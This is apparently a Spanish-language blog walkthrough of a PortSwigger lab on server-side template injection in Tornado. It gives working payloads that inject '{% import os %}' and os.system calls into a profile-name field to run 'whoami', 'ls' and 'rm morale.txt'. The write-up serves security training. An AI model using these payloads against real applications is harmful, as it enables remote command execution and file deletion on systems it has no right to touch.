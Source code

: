 ```yaml
---
title: Basic server-side template injection (code context)
description: Laboratorio de Portswigger sobre SSTI
date: 2024-11-22 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SSTI
tags:
  - Portswigger Labs
  - SSTI
  - Basic server-side template injection (code context)
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` es `vulnerable` a un `Server Side Template Injection` debido a la forma insegura en que utiliza una `plantilla` de `Tornado`. Para resolver el laboratorio, hay que `revisar` la `documentación` de `Tornado` para descubrir cómo `ejecutar comandos` y luego `eliminar` el archivo `morale.txt` del `directorio` personal de `Carlos`. Podemos `iniciar sesión` en nuestra propia `cuenta` utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSTI-Lab-2/image_1.png)

Pulsamos en `My account` y nos `logueamos` usando las credenciales `wiener:peter`

![](/assets/img/SSTI-Lab-2/image_2.png)

Al `loguearnos` vemos esto

![](/assets/img/SSTI-Lab-2/image_3.png)

Si nos metemos en cualquier `artículo` veremos que podemos `comentar`

![](/assets/img/SSTI-Lab-2/image_4.png)

En la parte de `My account` cambiamos el `Preferred name`

![](/assets/img/SSTI-Lab-2/image_5.png)

El nombre en el `chat` también `cambia`

![](/assets/img/SSTI-Lab-2/image_6.png)

Si `capturamos` la `petición` de cambio de `nombre` en `Preferred name` vemos que se está `enviando` un `objeto`

![](/assets/img/SSTI-Lab-2/image_7.png)

Hacemos referencia a una `propiedad` del `objeto inexistente`

```
blog-post-author-display=user.NO_EXISTE&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```

Si nos dirigimos a la parte de las `publicaciones` obtendremos un `error` mediante el cual podemos identificar el `template` que se está usando

![](/assets/img/SSTI-Lab-2/image_8.png)

Nos dirigimos a hacktricks [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python), probamos los `payload` para esta `plantilla` y vemos que funciona

{% raw %}
```
blog-post-author-display={{7*7}}&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

![](/assets/img/SSTI-Lab-2/image_9.png)

Nos vamos a [https://www.tornadoweb.org/en/stable/guide/templates.html](https://www.tornadoweb.org/en/stable/guide/templates.html) y observamos que los objetos se cargan entre {% raw %} `{{ }}` {% endraw %}

![](/assets/img/SSTI-Lab-2/image_10.png)

`Enviamos` este `payload`

{% raw %}
```
blog-post-author-display=}}{% import os %}{{os.system('whoami')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

`Obtenemos` este `error`

![](/assets/img/SSTI-Lab-2/image_11.png)

Probamos este `payload` en el que hacemos referencia al `objeto user`

{% raw %}
```
blog-post-author-display=user.name}}{% import os%}{{os.system('ls')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

Vemos que se ha listado el archivo `morale.txt`

![](/assets/img/SSTI-Lab-2/image_12.png)

`Borramos` el archivo `morale.txt` y `resolvemos` el `laboratorio`

{% raw %}
```
blog-post-author-display=user.name}}{% import os%}{{os.system('rm morale.txt')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}
